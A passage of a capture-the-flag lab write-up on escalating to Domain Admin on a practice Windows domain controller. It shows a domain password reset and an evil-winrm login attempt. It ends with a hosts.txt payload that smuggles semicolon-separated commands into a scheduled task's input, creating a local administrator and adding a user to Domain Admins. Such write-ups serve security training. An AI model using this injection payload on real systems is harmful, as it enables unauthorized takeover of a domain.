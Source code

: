 ## Privilege Escalation (Domain Admin/Administrator)

So now let's change the domain password of user `brittanycr` and modify the hosts.txt file in order to get a reverse shell impersonating service principal running the scheduled task.

{% code overflow="wrap" %}
```powershell
Set-ADAccountPassword -Identity "brittanycr" -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password1234!" -Force)
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (647).png" alt=""><figcaption></figcaption></figure>

Try to login using evil-winrm:

```bash
evil-winrm -i fire.windcorp.thm -u brittanycr -p Password1234!
```

But unfortunately this user doesn't have permissions to WinRM on Domain Controller:

<figure><img src="../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

neither using RDP.

So we have to create a `hosts.txt` file on Kali and then upload it via `smbclient`. I saved the below in `hosts.txt` :

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
;net user evil hello!123 /add;net localgroup Administrators evil /add; Add-ADGroupMember -Identity 'Domain Admins' -Members 'buse';
```
{% endcode %}
